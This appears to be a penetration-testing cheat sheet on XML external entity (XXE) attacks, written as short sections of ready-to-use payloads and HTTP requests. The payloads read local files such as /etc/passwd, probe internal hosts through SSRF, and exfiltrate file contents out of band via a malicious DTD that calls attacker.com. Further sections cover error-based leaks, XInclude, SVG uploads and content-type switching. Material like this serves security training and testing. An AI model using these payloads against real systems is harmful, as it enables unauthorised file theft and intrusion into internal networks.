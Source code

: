 # XXE

<details>

<summary>Introduction</summary>

**What is XML**

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

</details>

## <mark style="color:yellow;">Retrieve files</mark>

1. Introduce (or edit) a `DOCTYPE` element defining an external entity with the file path.
2. Edit a data value in the XML returned in the app's response to use the defined external entity.

{% hint style="info" %}
**Note**: to systematically test for XXE, test each data node in the XML individually using your defined entity to see if it appears in the response.
{% endhint %}

***

Original

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

Exploitation

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## <mark style="color:yellow;">Perform SSRF attacks</mark>

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## <mark style="color:yellow;">Blind XXE</mark>

### <mark style="color:yellow;">Out-of-band (OAST) techniques</mark> <a href="#detecting-blind-xxe-using-out-of-band-oast-techniques" id="detecting-blind-xxe-using-out-of-band-oast-techniques"></a>

**Detection**

* Detecting as SSRF
  * ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
    ```
* Regular entities are blocked? Bypass via XML parameter entities
  * ```xml
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
    ```
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

1. Start a web server and host on `http://attacker.com/example.dtd` this malicious dtd.

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attaccker.com/?x=%file;'>">
%stack;
%exfil;
```

2. Add this external entity

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/example.dtd"> %xxe;]>
```

{% hint style="info" %}
**Note**: This technique might not work with multiline files.
{% endhint %}

### <mark style="color:yellow;">Via error messages</mark> <a href="#exploiting-blind-xxe-to-retrieve-data-via-error-messages" id="exploiting-blind-xxe-to-retrieve-data-via-error-messages"></a>

Trigger an XML parsing error message with the file contents.&#x20;

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

{% hint style="info" %}
**Note**: This works if you notice an error in the response when detecting with OAST (e.g., the reflected URL entered)
{% endhint %}

## <mark style="color:yellow;">Hidden attack surface</mark>

* **First case** - Requests that contain data in XML format
* **Second case -** Requests that do not contain any XML
  * **Detection**: Add entity reference that doesn't exist to cause an error  -> ok it's XML

### <mark style="color:yellow;">XInclude attacks</mark>

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document.

`XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```http
POST /product/stock HTTP/2
Host: vulnerable.website.com
[...]



productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude">
<xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

### <mark style="color:yellow;">Via file upload</mark>

Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

This works if it's used image processing library & support SVG images & allow external entity.

### <mark style="color:yellow;">Via modified content type</mark>

Some web app will tolerate other content types.

**Expected request**

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

**Sumbit following request**

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
